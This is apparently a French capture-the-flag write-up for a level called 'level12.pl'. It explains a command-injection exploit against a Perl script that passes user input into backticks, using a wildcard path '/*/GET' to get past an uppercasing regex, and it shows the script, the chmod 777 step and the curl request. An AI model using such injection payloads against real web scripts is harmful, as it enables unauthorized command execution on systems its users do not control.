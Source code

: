 J'affiche level12.pl et je vois qui'il y a des backticks qui permettent d'executer du code mais je ne peux pas lancer directement `getflag > /tmp/token` car il  y a une regex au dessus qui transforme tout les lettres en majuscules et il n y a pas de GETFLAG.

Ce que je peux faire c'est passer le chemin d'un fichier qui lui sera executer par les backticks 'x=`/*/GET`'.

La wildcard est la pour recuperer le bon fichier avec egrep sans se faire bloquer par la regex maj.
```bash
cat /tmp/GET
```
```bash
#!/bin/sh
getflag >/tmp/token
```
On rend le script executable pour qu'il puisse être executer par les backticks

```bash
chmod 777 /tmp/GET
```
J'execute la commande curl
```bash
curl http://localhost:4646?x='`/*/GET`''
cat /tmp/token
```